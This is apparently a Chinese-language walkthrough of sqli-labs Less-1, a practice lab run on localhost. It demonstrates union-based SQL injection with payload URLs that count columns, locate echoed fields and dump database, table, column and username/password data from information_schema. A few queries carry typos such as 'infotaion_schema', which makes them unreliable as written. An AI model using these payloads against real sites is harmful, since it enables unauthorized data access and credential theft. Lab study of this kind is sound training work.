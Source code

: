 使用单引号判断存在sql注入

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/F8AEE938496E4D2CBB79E8EB418AAAAEclipboard.png)



# 1.使用union select 或 order by 猜列数

## 1.1 order by

http://127.0.0.1/sql-labs/Less-1/?id=1'order by 3 --+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/CFAEB88FE2F042C8BD1EF01D7AE8198Dclipboard.png)



http://127.0.0.1/sql-labs/Less-1/?id=1'order by 4 --+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/CA7969D0144E4364940BA5F275395ABBclipboard.png)

此处有个小技巧，使用二分查找发会更快。



## 1.2 union select 

http://127.0.0.1/sql-labs/Less-1/?id=1'union select 1,2,3--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/510BAAF0539E49B18C20FDFF0CFD05FEclipboard.png)



http://127.0.0.1/sql-labs/Less-1/?id=1%27union%20select%201,2,3,4--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/40977345B7BC478693E3BF9F24246E73clipboard.png)

通过两个连接返回的页面不同，判断该数据表有三列。



# 2. 确定回显列

由于表中每列的数据类型不一定相同，所以需要确定查询的数据回显在那一列。

这里猜测数据表的第一列id为int型，name列和password列为字符型。

我们查询的数据为字符型，所以确定二三列为回显列。

如：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/EFC959EE69C043CE82CBF4C1BE83A4FEclipboard.png)

这里有一个点需要注意，我们需要使union之前的第一个查询报错，才能将我们需要查询的数据显示到原查询所在的位置。



# 3.执行语句报数据库信息。

3.1爆库

http://127.0.0.1/sql-labs/Less-1/?id=-1'union select 1,database(),3--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/E3773254C390420584DBBC50EE11DB8Fclipboard.png)



3.2爆表

union select 1,group_concat(table_name),3 from infotaion_schema.tables where table_schema='security'--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/32DB0BF6100B434EBFA51C96AE1369F4clipboard.png)



3.3爆字段

union select 1,group_concat(column_name),3 from infomation_schema.columns where table_name='user'

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/EEFFBDCF5539462EBE7250E2A6EA914Aclipboard.png)



3.4爆字段内容

union select 1,username,password from users where id=3 --+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/3B46EA66DA3A478AA069CBB21D82CCF6clipboard.png)

